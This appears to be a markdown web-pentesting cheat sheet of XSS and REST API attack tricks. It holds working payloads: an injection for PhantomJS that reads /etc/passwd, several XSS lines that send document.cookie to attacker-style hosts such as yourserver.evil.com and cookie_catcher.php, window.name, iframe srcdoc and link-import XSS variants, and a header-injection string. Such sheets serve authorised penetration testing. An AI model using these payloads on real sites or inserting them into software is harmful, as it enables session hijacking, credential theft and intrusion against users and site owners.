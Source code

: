 * injection for PhantomJS

    ```http://yoururl.com/?"+require('fs').read('/etc/passwd');page.customHeaders={Host:'127.0.0.1'};var nonce="```

* xss in one domain, check if other domain's dns points to it

* xss in subdomain can interact with parent via iframe (X-Frame-Options can't be set to DENY or SAMEORIGIN)

* [content-type/extension comparison](http://pwndizzle.blogspot.com/2015/07/xss-extensions-and-content-types.html)

* xss with svg and image/svg+xml content-type or xml and application/xml content-type

* browsers parse as html content-type with comma, like that: image/foo,text/html

* [overlong utf-8, ie. \xc0\x81](https://securityonline.info/cross-site-scripting-xss-payloads/)

* frequent payloads
    ```
    <img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
    <script>document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')</script>
    <script>document.location= "http://www.example.com/cookie_catcher.php?c=" + document.cookie</script>
    ```

* windown.name for payload holding
    ```
    window.open('http://vulnsite/?xss_here="><svg/onload=$(body).html(name)', payload);
    // name == window.name == payload
    ```

* [iframe srcdoc](https://html5sec.org/#139)
    ```
    <iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
    ```
* link import
    ```
    <link rel=import href=/xss.gif>
    xss.gif: GIF89a<script>alert(1)</script>
    ```

* almost inline comment
    ```js
    <script>
    alert()
    --> undefined()
    --> oups;} dupadupa'{
    </script>
    ```
* line separator with `\u2028` instead of `\n`

#### #REST
* WADL
    + /application.wadl path
    + OPTIONS + Accept: application/vnd.sun.wadl+xml
    + /application.xml
    + ?\_wadl=true
+ URI matching ambiguities
+ HTCR injection
    ```
    Accept\tapplication/json\rX-User-Id: 123 as two headers in wildfly
    ```
+ Content types (in header or multipart file)

